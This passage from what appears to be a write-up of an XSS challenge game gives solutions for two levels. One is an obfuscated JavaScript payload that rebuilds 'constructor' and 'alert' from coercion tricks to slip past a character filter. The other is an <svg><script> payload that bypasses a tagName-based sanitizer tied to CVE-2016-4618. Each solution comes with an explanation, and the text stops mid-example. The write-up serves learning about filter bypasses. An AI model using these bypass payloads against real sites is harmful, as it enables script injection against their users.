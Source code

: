 ### solution
```javascript
",CSS["c"+(CSS+'')[6]+"nstr"+([].s+'')[0]+"ct"+(CSS+'')[6]+"r"]((0/0+'')[1]+"l"+([].s+'')[3]+"rt(1)")(),"
```
### background info
In this level, we still use `CSS["constructor"]("alert(1)")()` to execute. We lose `/[{}!=<>\\]/g`, so we can not use `\u` or `\x` to encode, we need to make our own alphabet without `/[{}!=<>\\]/g`
Here is how I do it:
- a:`(0/0+'')[1]`
- e:`([].s+'')[3]`
- o:`(CSS+'')[6]`
- u:`([].s+'')[0]`

We only need this 4 character.

## Fruit
### code
```javascript
// CVE-2016-4618
function escape(s) {
var div = document.implementation.createHTMLDocument().createElement('div');
div.innerHTML = s;
function f(n) {
if ('SCRIPT' === n.tagName) n.parentNode.removeChild(n);
for (var i=0; i<n.attributes.length; i++) {
var name = n.attributes[i].name;
if (name !== 'class') { n.removeAttribute(name); }
}
}
[].map.call(div.querySelectorAll('*'), f);
return div.innerHTML;
}
```
### solution
```javascript
<svg><script>alert(1)</script></svg>
```
Or we can shorten it:
```javascript
<svg><script>alert(1)
```
### background info
For DOM trees which represent HTML documents, the returned tag name is always in the canonical upper-case form. For example, tagName called on a `<div>` element returns `"DIV"`.
The tag names of elements in an XML DOM tree are returned in the same case in which they're written in the original XML file. If an XML document includes a tag `<SomeTag>`, then the tagName property's value is `"SomeTag"`.
So we may put out `<script>` tag inside XML `<svg>`.
Furthermore, the `<script>` without end tag `</script>` act differenly inside or outside `<svg>`. For example,
```html
<html>
<body>
<script>alert(1)
</body>
</html>
```
will be analysed **by browser** as:
```html
<html>
<body>
```